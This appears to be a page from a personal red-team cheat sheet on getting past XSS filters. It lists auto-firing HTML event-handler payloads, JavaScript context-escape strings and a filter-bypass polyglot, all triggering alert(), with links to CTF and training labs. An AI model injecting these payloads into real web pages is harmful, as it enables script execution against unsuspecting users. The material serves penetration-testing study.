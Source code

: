 # XSS Filters Bypass

*To bypass advanced filtering: [HTML Payloads Tricks](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#html) and [JavaScript payloads Tricks](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#javascript).*

<div class="row row-cols-lg-2"><div>

PortSwigger has an awesome list of HTML tags and HTML attributes allowing you to easily find [XSS payloads](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

1. FUZZ and find allowed tags
2. Select a tag in the list that you can use
3. Either test a few payloads, or FUZZ again

You may also use [xss-payload-list](https://github.com/payloadbox/xss-payload-list) <small>(6.8k ⭐)</small>. Below are some of my favorites. They may not require user interaction <small>(e.g. auto)</small>, optionally according to the target <small>(e.g. auto|manual)</small>, or always <small>(e.g. manual)</small>.

* Tags: `a#href`, `iframe#src`, `object#data`, `embed#src`

```html!
<a href="javascript:alert(1)">x</a>      <!-- auto -->
```

* Tags: `DETAILS`

```html!
<details open ontoggle=alert(1)></details> <!-- auto -->
```
</div><div>

* Tags: `*`

```html!
<a id=x tabindex=1 onfocus=alert(1)></a> <!-- auto|manual -->
```

* Tags: `INPUT`, `SELECT`, `BUTTON`, `KEYGEN`, etc.

```html!
<input autofocus onfocus="alert(1)">     <!-- auto -->
```

* Tags: `IMG`, `LINK`, `INPUT`, `BODY`, `SOURCE`, etc.

```html!
<img src=1 onerror="alert(1)">           <!-- auto -->
```

* Others

```html!
<svg onload=alert(1)>
<svg><animatetransform onbegin=alert(1)>
```
</div></div>

<hr class="sep-both">

## Context Escape

<div class="row row-cols-lg-2"><div>

In multiple CTFs, the input is reflected in a specific context.

#### Context Escape — JavaScript

[![cross_site_scripting](../../../../../_badges/htb/cross_site_scripting.svg)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss)
[![xssgi](../../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![unkeyed_cache_poisoning_cookie](../../../../../_badges/ps-lab/wcd/unkeyed_cache_poisoning_cookie.svg)](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-cookie)
[![unkeyed_cache_poisoning_fat_get](../../../../../_badges/ps-lab/wcd/unkeyed_cache_poisoning_fat_get.svg)](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get)
[![unkeyed_cache_poisoning_param_cloaking](../../../../../_badges/ps-lab/wcd/unkeyed_cache_poisoning_param_cloaking.svg)](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking)
[![mystery](../../../../../_badges/ps-lab/mystery.svg)](https://portswigger.net/web-security/all-topics)

A common case is from within JavaScript code:

```javascript
let xxx = 'here'
xxx.innerHTML = 'here'
```

Common payloads or examples:

* `';alert(1);//`
* `''-alert(1)-''` 
* `''+alert(1)+''` 
* `''&alert(1)&''`
* `"};alert(1)//`

See also: [JavaScript eval function](/cybersecurity/red-team/s3.exploitation/vulns/injection/eval.md).
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

#### XSS Polygots Filtering Bypass

[![xssgi](../../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)

Polygot are complex payloads designed to bypass many filter:

```js!
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```
</div><div>
</div></div>